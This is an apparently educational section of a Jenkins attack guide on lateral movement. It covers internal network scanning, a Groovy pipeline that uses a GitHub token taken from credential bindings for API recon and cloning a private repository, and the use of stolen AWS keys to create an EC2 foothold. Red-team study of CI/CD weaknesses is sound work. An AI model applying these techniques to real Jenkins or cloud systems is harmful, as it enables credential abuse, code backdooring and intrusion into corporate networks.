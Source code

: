 # Lateral Movement

## Internal Network Scan
- When Jenkins is deployed on premise, it has to potential to reach multiple corporate services and endpoints
- When Jenkins is deployed in cloud, it is reachable to limited on premise corporate services through direct connect.
- Therefore, it is worth performing a network scan to find the reachable services, enumerate ports and see if we can exploit any of the services in corp environment.
- We can also use build logs to find if any such corp environment is accessed through analyzing build logs.

## Enumerating services with access tokens from credential bindings
- If we are successful in dumping tokens or reusing tokens in credentials bindings, we should review what kind of privileges that token hold and what we can do with it.
- For our understanding, let us take an example of github access token.
  - We can try to enumerate various services the token has privileges to perform.
  - So imagine you have access to an admin level personal access token, then there a whole world of possibilites - Dump credentials, backdoor code, etc
  - We can also have access to private repositories and we can view the cloned contents in the workspace :) 
``` Groovy
pipeline{
    agent any
    stages{
        stage('Recon with token'){
            steps{
                withCredentials([usernamePassword(credentialsId: 'github-token', usernameVariable: 'USERNAME', passwordVariable: 'TOKEN')]) {
                    sh '''
                    curl -s -L \
                        -H "Accept: application/vnd.github+json" \
                        -H "Authorization: Bearer $TOKEN"\
                        -H "X-GitHub-Api-Version: 2022-11-28" \
                        https://api.github.com/user
                    '''
                }
            }
        }
        stage('Clone a private repo with token'){
            steps{
                withCredentials([usernamePassword(credentialsId: 'github-token', usernameVariable: 'USERNAME', passwordVariable: 'TOKEN')]) {
                    sh '''
                        git clone https://dibsy:$TOKEN@github.com/dibsy/a-temp-private-repo.git
                    '''
                }
            }
        }
    }
}
```

<img src="lateral-api.png">
          
<img src="lateral-private.png">

## Creating resources with with access tokens from credential bindings
- Similarly like Github, we can try to enumerate services with the AWS Access Token
- If we have enough privileges, we can create new AWS services with the AWS tokens - For example create an ec2 with remote ssh privileges.
- This will not only help in moving laterally, we can use this as foothold to carry out attacks ( where we can install many tools )


